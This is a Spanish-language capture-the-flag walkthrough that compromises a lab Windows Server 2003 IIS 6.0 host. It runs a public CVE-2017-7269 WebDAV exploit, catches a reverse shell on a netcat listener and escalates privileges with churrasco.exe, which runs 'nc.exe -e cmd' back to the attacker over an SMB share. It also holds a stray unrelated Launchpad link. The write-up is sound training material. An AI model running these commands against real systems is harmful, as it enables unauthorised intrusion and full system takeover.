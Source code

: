 ## Summary

Tags: #Windows #HTTP #IIS #WebDav #Churrasco #JuicyPotato #Server2003 #SearchSploit 

- IP -> 10.10.10.14
- Ports -> TCP (80), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ ping -c 1 ❮IP❯                             # Para saber si la maquina esta activa o no (ttl=64 Linux, ttl=128 Windows)

	# IP = IP Address de la maquina target 
	# c = Numero de pings a ejecutar
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p80 ❮Target IP❯ -oN targeted
```

En la captura de Nmap además de encontrar que el puerto 80 esta abierto, podemos ver que nos sale los métodos permitidos.
```bash 
# Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND...
# Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH... 

	# PUT = Subir un archivo al servidor 
	# MOVE = 'Mover' el archivo o cambiarle de extension

# Type WebDav
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
# Encontramos un IIS/6.0
```

Como vemos que hay un WebDav podemos usar la siguiente herramienta para testear que tipo de archivos podemos subir al servidor. Lo que hace la herramienta es que subirá todo tipo de archivos y nos reportara cuales si logro subir. 
```bash 
❯ davtest -url http://10.10.10.15 
```
Pero no podemos subir ningún tipo de archivo. 

Tendremos que buscar por Searchsploit
```bash
❯ searchsploit IIS 6.0                        # Para buscar un exploit
```

```bash 
❯ searchsploit -m 41738.py                    # Para descargarnos el exploit .py que nos ayudara a hacer el Buffer Overflow para el IIS 6.0

	# m = move


# O podemos clonarnos el siguiente directorio con un exploit mejor
❯ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
```
Al momento de mirar el contenido del exploit, podemos observar que usa el método **PROPFIND** y este método si esta disponible en el servidor. 

Ejecutamos el exploit de la siguiente manera:
```python 
❯ python2 iis6.py <IP Victima> 80 <IP Atacante> 443

	# ip = IP de la maquina victima 
	# 80 = Puerto victima 
	# ip A = Ip de la maquina de atacante
	# 443 = Puerto a abrir de la maquina de atacante  
```

Antes de ejecutar el comando en la web, nos ponemos en escucha por el puerto 443 
```bash 
❯ rlwrap nc -nlvp 443
```

## User

```bash
❯ whoami                                     # Miramos el nombre del usuario
```
Ahora somos nt Authority \\ Network Service 

```bash
❯ ipconfig                                   # Nos muestra las interfaces y las direcciones IP
```

```bash 
❯ systeminfo                                 # Nos muestra la informacion del Windows
```


## Root

```bash
❯  whoami /priv                              # Miramos los privilegios que tenemos   
	
	# SetImpersonatePrivilege = En el cual podriamos usar RottenPotato o  JuicyPotato, este es para servers del 2003
```


Nos descargamos el de la siguiente pagina:
* [Juicy-Potato-Server-2003](https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)

Descargamos el archivo de churracco.exe y lo compartimos a la maquina victima por un servidor smb. 
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

En la consola de Windows para transferirnos el archivo, primero debemos de ir al dir **Temp** y después colocamos el siguiente comando. 
```python
❯ copy \\10.10.14.11\\smbFolder\\churrasco.exe churrasco.exe    # Nos copiamos un archivo .exe desde un recurso compartido SMB que se encuentra en nuestra maquina de atacante

	# IP = IP de atacante
	# smbFolder = Nombre del folder del recurso compartido
	# File.exe = Nombre del archivo .exe a copiar de la maquina de atacante
	# File.exe = Nombre del archivo .exe en el cual se depositara el archivo copiado
```

Ejecutamos el churrasco de la siguiente manera
```bash 
❯ churrasco.exe "\\10.10.14.11\\smbFolder\\nc.exe -e cmd 10.10.14.11 443"           # Al momento de ejecutar el churrasco debemos de colocar el comandos a ejecutar 
```

Pero antes compartirnos el Netcat a nivel de red para Windows, para después ejecutarlo desde el recurso compartido y el servidor de la maquina victima
```bash 
❯ impacket-smbserver smbFolder $(pwd) -smb2support           # Compartiremos el recurso de Netcat a nivel de red

	# smbFolder = Nombre de la carpeta que compartiremos a nivel de red 
	# pwd = Sincronizado con la ruta actual de trabajo
	# smb2support = Sporte a la version 2 de smb
```

Nos ponemos en escucha 
```bash 
❯ rlwrap nc -nlvp 443
```

Ahora somos NT Authority\\System
Buscamos la primer flag del usuario user.txt en Harry, en donde antes no nos podíamos meter y la segunda flag en Administrator